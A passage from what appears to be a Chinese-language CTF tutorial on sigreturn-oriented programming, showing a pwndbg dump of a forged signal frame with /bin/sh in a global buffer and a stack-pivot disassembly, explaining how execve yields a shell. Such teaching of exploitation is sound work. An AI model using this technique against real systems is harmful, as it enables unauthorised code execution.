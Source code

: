 ```python
0x601090 <global_buf+144>:	0x000000000000003b	0x0000000000000000
    						#pop rax 			#pop rcx
0x6010a0 <global_buf+160>:	0x0000000000000000	0x0000000000400129
    						#pop rsp			#pop rip--syscall_addr
0x6010b0 <global_buf+176>:	0x0000000000000000	0x0000000000000033
0x6010c0 <global_buf+192>:	0x0000000000000000	0x0000000000000000
0x6010d0 <global_buf+208>:	0x0000000000000000	0x0000000000000000
0x6010e0 <global_buf+224>:	0x0000000000000000	0x0000000000000000
0x6010f0 <global_buf+240>:	0x0000000000000000	0x6161616161616161
    											#aaaaaaaa
0x601100 <global_buf+256>:	0x0068732f6e69622f	0x0000000000000000
    						#/bin/sh\x00
0x601110 <global_buf+272>:	0x0000000000000000	0x0000000000000000
0x601120 <global_buf+288>:	0x0000000000000000	0x0000000000000000
0x601130 <global_buf+304>:	0x0000000000000000	0x0000000000000000
0x601140 <global_buf+320>:	0x0000000000000000	0x0000000000000000
0x601150 <global_buf+336>:	0x0000000000000000	0x0000000000000000
0x601160 <global_buf+352>:	0x0000000000000000	0x0000000000000000
0x601170 <global_buf+368>:	0x0000000000000000	0x0000000000000000
0x601180 <global_buf+384>:	0x0000000000000000	0x0000000000000000
0x601190 <global_buf+400>:	0x0000000000000000	0x0000000000000000
0x6011a0 <global_buf+416>:	0x0000000000000000	0x0000000000000000
0x6011b0 <global_buf+432>:	0x0000000000000000	0x0000000000000000
0x6011c0 <global_buf+448>:	0x0000000000000000	0x0000000000000000
0x6011d0 <global_buf+464>:	0x0000000000000000	0x0000000000000000
0x6011e0 <global_buf+480>:	0x0000000000000000	0x0000000000000000
0x6011f0 <global_buf+496>:	0x0000000000000000	0x0000000000000000
0x601200:	0x0000000000000000	0x0000000000000000
0x601210:	0x0000000000000000	0x0000000000000000
0x601220:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

另外这一个例子有意思的一点是地址0x400119处的mov rsp, rsi，其中rsi中是global_buf的地址，也就是说当我们输入之后程序会将stack转移到global_buf处，可以联想到之前的栈转移：

```c
.text:00000000004000FA                 lea     rsi, global_buf ; buf
.text:0000000000400101                 mov     rdx, 200h       ; count
.text:0000000000400108                 syscall                 ; LINUX - sys_read
.text:000000000040010A                 cmp     rax, 0F8h
.text:0000000000400110                 jb      short exit
.text:0000000000400112                 mov     rdi, 0          ; __unused
.text:0000000000400119                 mov     rsp, rsi  	   # lea rsi,global_buf
```

在调用rt_sigreturn后会布置好寄存器，因为frame.rip=syscall_addr，因此恢复后会直接调用syscall执行execve得到一个shell。

## 例题2
### 思路
> [https://github.com/Reshahar/BlogFile/blob/master/smallest/smallest](https://github.com/Reshahar/BlogFile/blob/master/smallest/smallest)
>
